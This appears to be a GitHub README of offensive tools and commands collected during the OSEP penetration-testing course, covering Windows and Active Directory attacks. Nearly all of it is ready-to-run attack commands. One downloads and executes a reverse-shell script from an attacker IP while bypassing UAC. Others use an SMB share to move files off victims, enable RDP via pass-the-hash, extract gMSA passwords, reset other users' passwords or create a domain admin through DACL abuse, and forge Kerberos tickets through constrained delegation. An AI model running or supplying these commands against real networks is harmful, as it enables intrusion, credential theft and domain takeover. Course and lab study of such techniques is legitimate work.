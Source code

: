 Just a bunch of tools built/gathered along the OSEP course.

# <ins>Useful Basic Commands</ins>:

### <ins>Run command as another user</ins>:
- `Invoke-RunasCs amit 'Password123!' 'powershell iex(iwr http://192.168.45.185/rev.txt -usebasicparsing)' -ForceProfile -CreateProcessFunction 2 -BypassUac`

### <ins>Set up SMB server (file transfer)</ins>:
- `smbserver.py share $(pwd) -smb2support -username amit -password password`
- On Victim: `net use \\192.168.45.223\share /U:amit password`
- Copy files: `copy <FILENAME> \\192.168.45.223\share`

### <ins>Enable RDP and RestrictedAdmin from both Local/Remote</ins>:

Using command prompt: 
- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f && reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0 && netsh firewall set service remoteadmin enable && netsh firewall set service remotedesktop enable` 

Using netexec:
- `netexec smb db01 -u administrator -H faf3185b0a608ce2f8afb6f8d133f85b --local-auth -X 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f;reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0;netsh firewall set service remoteadmin enable;netsh firewall set service remotedesktop enable' --exec-method atexec`

### <ins>RDP to host using xfreerdp</ins>:
- `xfreerdp /v:172.16.231.221 /u:amit /p:'Password123!' +dynamic-resolution +clipboard`

# <ins>BloodHound Dacls Abuse</ins>

### GMSAPasswordReader

Decrypt the gmsa password

    1. $gmsa = Get-ADServiceAccount -Identity bir-adfs-gmsa -Properties msDS-ManagedPassword
    2. $mp = $gmsa.'msDS-ManagedPassword'
    $mp // Get the password in numbers
    3. ConvertFrom-ADManagedPasswordBlob $mp

If the clear-text password not appear, let's just use it.

    1. $password = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
    2. $cred = New-Object System.Management.Automation.PSCredential "GroupName" , $password

Now we got the credentials Objects, let's open a new session with the privileged user:

    1. Invoke-Command -ComputerName 127.0.0.1 -cred $cred -ScriptBlock {net user DomainAdminmUser P@ssw0rd1!}
    2. Invoke-Command -ComputerName 127.0.0.1 -Credential $cred -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!' -Force)}

### ForceChangePassword

This Dacl means we can change the user's password without knowing his current one.

Change it using rpcclient:

    1. rpcclient -U <username> <ip>
    2. setuserinfo2 <username-we-can-change-password-to> 23 'NewPassword123!'

Change it using PowerView:

    1. $newpass = ConverTo-SecureString 'Password1234!' -AsPlainText -Force
    2. SetDomainPassword -Identity smith -AccountPassword $newpass

### AllowsToDelegate
The constrained delegation primitive allows a principal to authenticate as any user to specific services (found in the msds-AllowedToDelegateTo LDAP property in the source node tab) on the target computer.

Exploit

Get a service ticket using impacket:

    1. impacket-getST.py -spn cifs/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes :67065141d298d67a17ee8626476b20f9
    2. export KRB5CCNAME=Administrator.ccache
    3. impacket-psexec -k -no-pass dc.intelligence.htb
